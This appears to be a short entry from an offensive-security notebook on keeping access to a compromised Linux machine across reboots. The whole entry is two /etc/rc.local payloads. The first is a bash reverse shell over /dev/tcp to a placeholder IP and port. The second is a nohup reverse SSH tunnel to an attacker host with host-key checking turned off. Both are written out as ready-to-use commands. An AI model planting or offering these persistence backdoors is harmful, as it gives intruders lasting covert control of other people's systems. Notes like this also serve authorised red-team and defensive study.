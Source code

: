 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - linux
---
```

# Startup

## 01 - Callback Shell

```
$ cat /etc/rc.local
#!/bin/sh -e
/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
exit 0
```

## 02 - Reverse SSH Tunneling

Refer to this [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x08 - Maintaining Access/Persistence/Linux/Remote Login/SSH/Manual/Living off the Land|section]] for more context.

```
$ cat /etc/rc.local
#!/bin/sh -e
nohup ssh -i /tmp/keys/id_rsa -NTfCqR [127.0.0.1]:<SOCKS_Proxy> -o "UserKnownHostsFile=/dev/null StrictHostKeyChecking=no" <username>@<attacker_IP>
exit 0
```

---
## References

- [[Linux Post Exploitation Persistence References]]

- [[04 - Remote Port Forwarding|SSH: Remote Port Forwarding]]